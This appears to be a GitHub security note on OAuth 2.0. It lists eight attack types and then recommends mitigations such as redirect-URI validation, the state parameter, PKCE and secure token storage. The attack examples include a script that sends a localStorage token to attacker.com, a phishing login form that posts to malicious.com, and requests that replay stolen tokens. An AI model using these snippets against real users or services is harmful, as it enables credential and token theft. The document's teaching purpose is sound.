 # OAUTH AND OAUTH 2.0

## OAUTH:
OAuth is an open standard for access delegation, allowing third-party applications to obtain limited access to user resources on a server without sharing credentials, enhancing security and user experience.

## OAUTH 2.0:
OAuth 2.0 is an authorization framework that enables third-party applications to obtain limited access to user resources on a server, using access tokens without sharing user credentials, enhancing security.

## DIffernce between oauth and oauth2.0:
OAuth 1.0 is a protocol for secure delegated access, requiring complex signatures. OAuth 2.0 simplifies the process, using tokens and providing better support for web and mobile applications.

## Methods to perform oauth
- ### Authorization Code Interception:

Attackers can intercept the authorization code during the OAuth flow if the redirect URI is not properly validated.
Example:

An attacker sets up a malicious redirect URI and tricks the user into authorizing the application. The attacker captures the authorization code and exchanges it for an access token.
plaintext
```text
GET /oauth/authorize?response_type=code&client_id=attacker_client_id&redirect_uri=http://malicious.com/callback
```
- ### Cross-Site Request Forgery (CSRF):

If the application does not implement anti-CSRF measures, attackers can trick users into authorizing an application without their consent.
Example:

An attacker crafts a link that initiates the OAuth flow:
```text
<a href="http://example.com/oauth/authorize?client_id=attacker_client_id&redirect_uri=http://malicious.com/callback">Authorize</a>
```
- ### Token Theft via Phishing:

Attackers can create a phishing site that mimics the legitimate OAuth provider to steal access tokens.
Example:

A user is directed to a fake login page that looks like the legitimate OAuth provider:
```text
<form action="http://malicious.com/steal_token" method="POST">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" value="Login">
</form>
```
- ### Access Token Leakage:

If access tokens are stored insecurely (e.g., in local storage), they can be stolen via XSS attacks.
Example:
```text
// Malicious script to steal token
const token = localStorage.getItem('access_token');
fetch('http://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({ token }),
    headers: { 'Content-Type': 'application/json' }
});
```
- ### Using Refresh Tokens:

Attackers can exploit refresh tokens if they are not properly secured, allowing them to obtain new access tokens.
Example:

If a refresh token is stolen, the attacker can use it to request new access tokens:
```
POST /oauth/token HTTP/1.1
Content-Type: application/x-www-form-urlencoded

grant_type=refresh_token&refresh_token=<stolen_refresh_token>&client_id=attacker_client_id
```
- ### Open Redirect Vulnerabilities:

If the OAuth provider does not validate redirect URIs properly, attackers can redirect users to malicious sites.
Example:

```text
GET /oauth/authorize?client_id=legitimate_client_id&redirect_uri=http://malicious.com/callback
```
- ### Scope Manipulation:

Attackers can manipulate the requested scopes to gain more access than intended if the server does not validate them properly.
Example:

```text
GET /oauth/authorize?response_type=code&client_id=legitimate_client_id&scope=read,write,admin
```
- ### Token Replay Attacks:

If access tokens are not properly invalidated after use, attackers can replay them to gain unauthorized access.
Example:
```text
GET /api/resource HTTP/1.1
Authorization: Bearer <stolen_access_token>
```

## MITIGATION OF OAUTH2.0

### 1. Use Secure Redirect URIs
- Validation: Always validate redirect URIs against a whitelist of pre-registered URIs. This prevents open redirect vulnerabilities.
- Exact Match: Ensure that the redirect URI matches exactly, including the scheme (HTTP/HTTPS), domain, and path.
### 2. Implement State Parameter
- CSRF Protection: Use the state parameter to maintain state between the authorization request and the callback. This helps prevent CSRF attacks by ensuring that the response is from the original request.
- Random Value: Generate a random value for the state parameter and validate it upon receiving the response.
### 3. Use PKCE (Proof Key for Code Exchange)
- Enhance Security: Implement PKCE for public clients (e.g., mobile apps) to prevent authorization code interception attacks. PKCE adds an additional layer of security by requiring a code verifier and code challenge.
- Code Challenge: The client generates a code challenge and sends it with the authorization request. The server verifies it when exchanging the authorization code for an access token.
### 4. Limit Scope and Permissions
- Principle of Least Privilege: Request only the necessary scopes for the application. Avoid requesting broad scopes that grant excessive permissions.
- User Consent: Clearly inform users about the permissions being requested and allow them to grant or deny specific scopes.
### 5. Secure Token Storage
- Use Secure Storage: Store access tokens and refresh tokens securely. For web applications, use HttpOnly and Secure flags for cookies. For mobile applications, use secure storage mechanisms.
- Avoid Local Storage: Do not store tokens in local storage, as they are vulnerable to XSS attacks.
### 6. Implement Short-Lived Access Tokens
- Token Expiration: Use short-lived access tokens to limit the impact of token theft. Implement refresh tokens to allow users to obtain new access tokens without re-authentication.
- Revocation: Provide a mechanism to revoke tokens when necessary, such as when a user logs out or changes their password.
### 7. Use Strong Client Authentication
- Client Secrets: For confidential clients, use strong client secrets and rotate them regularly. Avoid hardcoding secrets in the application code.
- Public Clients: For public clients (e.g., mobile apps), consider using PKCE to enhance security.
### 8. Monitor and Log OAuth Activities
- Logging: Implement logging for OAuth-related activities, including authorization requests, token exchanges, and revocations. Monitor logs for suspicious activities.
- Alerts: Set up alerts for unusual patterns, such as multiple failed login attempts or token reuse.
